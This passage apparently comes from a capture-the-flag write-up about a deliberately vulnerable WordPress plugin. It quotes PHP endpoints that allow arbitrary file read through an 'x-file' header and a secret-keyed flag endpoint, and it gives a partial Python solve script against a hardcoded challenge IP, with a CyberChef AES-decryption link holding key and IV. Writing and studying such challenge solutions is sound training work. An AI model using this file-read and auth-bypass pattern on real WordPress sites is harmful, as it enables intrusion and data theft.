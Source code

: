 Next, we use the `test_post_recipe` function to achieve arbitrary file read and read the contents of `note.txt`:

```php
    public static function test_post_recipe($request) {
        $filename = $request->get_header('x-file');
        $user_id = get_current_user_id();
        $user_caps = get_transient('half_baked_dev_'. $user_id);

        if(is_array($user_caps) && in_array('edit_posts', $user_caps)) {
            if($filename) {
                $file = file_get_contents($filename);
```

After retrieving the contents of `note.txt`, use that information to get the flag using the `get_flag` function:

```php
    public static function get_flag($request) {
        $key = getenv('SECRET_INGREDIENT');
        $header = $request->get_header('x-secret-key');

        if($key === $header) {
            return rest_ensure_response(array(
                'status' => 'success',
                'flag' => getenv('X_FLAG'),
            ));
        }
```

## Obtaining the Flag

Here is my solve script to solve this challenge:

```python
import httpx
import asyncio

URL = "http://3.14.248.34:9035/"
# URL = "http://localhost:9035/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)
    def debug(self):
        return self.c.get("/wp-json/half-baked/v1/debug", headers={"x-debug-mode": "1"})
    def postrecipe(self, file):
        return self.c.post("/wp-json/half-baked/v1/post-recipe", headers={"x-file": file})
    def auto_login(self, username):
        return self.c.post("/wp-json/half-baked/v1/auto-login", data={"username": username})
    def get_flag(self, secret):
        return self.c.get("/wp-json/half-baked/v1/get-flag", headers={"x-secret-key": secret})

class API(BaseAPI):
    ...

async def main():
    api = API()
    """
    https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')AES_Decrypt(%7B'option':'Hex','string':'379444613f1519968b44a36fa51c544a'%7D,%7B'option':'Hex','string':'e59fc938f4eb1370bb9fef8a8b495bac'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=OWI1MGFjNjhlMjBmZTVjMmY5OTFmYmY5YzUwZDMwNzM4ZGZiMDFjYzIxODA4OTFlZWU0NTY2Y2NmYWQ4YTRhY2M0ODI1M2VkYTQ0ZGQwZTA1ODdhNWNiYWY3N2JhNmQzYWM5YmFkNDgzNGU3MGM0NzczODU4YWUyZDE1NjI5OGI5MDFhM2U4ZDFhYWI4Nzg1ZGVlYzM4NjIzNDdjMzJjMg
    """
```